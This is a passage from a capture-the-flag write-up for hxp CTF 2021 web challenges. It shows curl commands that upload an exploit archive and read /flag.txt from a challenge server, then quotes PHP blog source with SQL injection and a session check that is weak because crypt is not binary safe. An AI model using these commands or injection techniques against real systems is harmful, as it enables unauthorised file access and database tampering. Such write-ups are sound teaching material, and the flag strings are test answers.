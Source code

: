       curl -H 'Cookie: PHPSESSID=01t6q8mr3rsr06deavbifeik2q' http://65.108.176.76:8200 -F "file=@exploit.zip"
      curl -s -H 'Cookie: PHPSESSID=01t6q8mr3rsr06deavbifeik2q' http://65.108.176.76:8200/?file=file:///flag.txt > flag.txt
      ```
* Flag
  * ```hxp{at_least_we_have_all_the_performance_in_the_world..._lolphp_:/}```
* Reference
  * [mikecat](https://mikecat.github.io/ctf-writeups/2021/20211218_hxp_CTF_2021/WEB/unzipper/#en)
#### shitty blog 🤎
* Description
  > Difficulty estimate: easy
  > 
  > Please use my shitty blog 🤎!
  * [shitty blog 🤎-a6c0b8b672817005.tar.xz](https://2021.ctf.link/assets/files/shitty%20blog%20%F0%9F%A4%8E-a6c0b8b672817005.tar.xz)
  * ```http://65.108.176.96:8888/```
* Solution
  * Take a look at the  [source code](WEB/shitty%20blog%20🤎/index.php)
    ```php
    $secret = 'SECRET_PLACEHOLDER';
    $salt = '$6$'.substr(hash_hmac('md5', $_SERVER['REMOTE_ADDR'], $secret), 16).'$';

    if(! isset($_COOKIE['session'])){
        $id = random_int(1, PHP_INT_MAX);
        $mac = substr(crypt(hash_hmac('md5', $id, $secret, true), $salt), 20);
    }
    else {
        $session = explode('|', $_COOKIE['session']);
        if( ! hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true), $salt), $salt.$session[1])) {
            exit();
        }
        $id = $session[0];
        $mac = $session[1];
    }
    
    ...
    ...

    function get_user($db, $user_id) : string {
        foreach($db->query("SELECT name FROM user WHERE id = {$user_id}") as $user) {
            return $user['name'];
        }
        return 'me';
    }

    ...
    ...

    function delete_entry($db, $entry_id, $user_id) {
        $db->exec("DELETE from entry WHERE {$user_id} <> 0 AND id = {$entry_id}");
    }
    ```
    * It'll create a sqlite database for each session
    * The ```get_user``` and ```delete_entry``` functions are vulnerable to sql injection
      * ```$entry_id``` is not controllable while ```$user_id``` is controllable but with some limitations
  * ```$user_id``` is the first part of the session splitted by ```|```, and the second part is its ```mac```
    * ```hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true), $salt), $salt.$session[1])```
    * These must evaluates to true, otherwise the connection will be terminated
    * The vulnerability lies in the function [```crypt```](https://www.php.net/manual/en/function.crypt.php) because this function is not (yet) binary safe!. And also the fourth parameter of ```hash_hmac``` indicates this is generated as a binary